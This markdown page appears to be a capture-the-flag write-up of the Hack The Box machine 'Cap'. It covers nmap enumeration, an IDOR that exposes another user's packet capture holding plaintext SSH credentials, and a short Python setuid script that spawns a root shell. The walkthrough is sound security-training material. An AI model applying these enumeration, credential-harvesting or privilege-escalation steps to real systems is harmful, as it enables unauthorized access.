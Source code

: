 ```yaml
---
  title: Hackthebox Cap
  pubDate: 2024-09-15
  categories: ["Hackthebox", "Machines"]
  description: "Cap is an easy Linux machine running a HTTP server that performs administrative functions including network captures. Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to root."
---
```


<img 
    style="display: block; 
           margin: 50px auto;
           width: 30%;"
    src="https://labs.hackthebox.com/storage/avatars/70ea3357a2d090af11a0953ec8717e90.png" 
    alt="Our logo">
</img>


Cap is a machine that has 2 simple vulnerabilities that can be exploited to gain access to the machine. Those vulnerabilities are:

- Insecure Direct Object Reference (IDOR): access control vulnerability that arises when an application uses user-supplied input to access objects directly

- Linux capability: a security feature that provides a finer-grained control over the permissions that are available to a process


<Section>🔍 **Enumeration**</Section>

### Nmap

```bash
nmap -sC -sV 10.10.10.245
```

We found that there are 3 open ports:

- 21 (FTP)
- 22 (SSH)
- 80 (HTTP)

<Section> 🕵️‍♂️ **Website**</Section>

We can access the port 80 via browser and see that it is a simple security dashboard.

![website](../../assets/cap/image-20210522070007349.webp)

There is a user `nathan` logged in.

Let traverse to other tabs on the side menu and see what we can find.

If we click on `Security Snapshots`, we can see that the website hang for 5 seconds and then redirects to `/data/2 `where it returns information about the network capture.

![data/2](../../assets/cap/image-20210522070209222.webp)

Looks like there are no packets captured yet.

But there is a vulnerability here. We can try to change the number in the URL to see if we can access other captures.

If we change the number to 0, we can see that there are atually packets captured.

![data/0](../../assets/cap/pcap.png)

We can download the file and analyze it using Wireshark.

![wireshark](../../assets/cap/wireshark.png)

And there we have it, plaintext credentials for the user `nathan` with the password `Buck3tH4TF0RM3!`.
We can use these credentials to login to the machine via SSH.

<Section>🔐 **Exploitation**</Section>

```bash
ssh nathan@10.10.10.245 

```


![nathan](../../assets/cap/nathan.png)

```bash
nathan@cap:~$ cat user.txt
```

<Section>🚀 **Privilege Escalation**</Section>

Let's take a look at the `exploit.py` file.

```python
import os
os.setuid(0)
os.system("/bin/bash")
```

This script is trying to escalate the privilege to root by setting the user id to 0 and then executing a bash shell.

We can run this script to get a root shell.

```bash
nathan@cap:~$ python3 exploit.py
```

```bash
root@cap:~# cat root.txt
```

And there we have it, the root flag.

<Section>📝 **Conclusion**</Section>

Cap is a simple machine that demonstrates the importance of proper access control and the use of Linux capabilities. The Insecure Direct Object Reference (IDOR) vulnerability allowed us to access another user's network capture, which contained plaintext credentials. We then leveraged a Linux capability to escalate to root and obtain the root flag.

